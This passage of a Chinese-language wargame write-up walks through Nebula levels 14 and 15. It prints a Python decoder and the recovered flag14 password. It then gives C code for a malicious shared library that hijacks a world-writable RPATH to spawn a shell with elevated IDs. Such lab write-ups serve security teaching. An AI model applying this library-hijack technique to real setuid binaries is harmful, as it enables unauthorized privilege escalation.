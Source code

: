 ```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 14

纯逆向题，把 setuid bin 拉下来拖到 radare2 里一步一步分析吧。

最后还原出 decoding 算法。

```python
In [10]: def dec(x):
    ...:     k = 0
    ...:     ret = []
    ...:     for i in x:
    ...:         ret.append((i-k)&0xff)
    ...:         k += 1
    ...:     return bytearray(ret)
In [11]: dec(b'857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW')
Out[11]: bytearray(b'8457c118-887c-4e40-a5a6-33a25353165')
```

```bash
level14@nebula:~$ su flag14
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 15

直接运行 flag15 会输出 `strace it!`，用 strace 再跑一边可以看到它在 /var/tmp/flag15/ 下面找 libc 的动态链接库。

使用 objdump -p 查看 ELF 的 .dynamic 段，发现 RPATH 被写死成了 /var/tmp/flag15，而这个目录权限是 777。

使用 objdump -R 查看 ELF 里需要重定位的变量

```
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
```

思路就是自己写一个 .so 库，直接把入口函数 __libc_start_main 写成 system("/bin/sh")。代码如下

```c
void __libc_start_main() {
  setresuid(geteuid(), geteuid(), geteuid());
  system("/bin/sh");
}
```

> GCC进行链接重定位时似乎只看函数/变量名，忽略类型、签名等，所以这里写成和正常 libc 里不一样的签名也可以
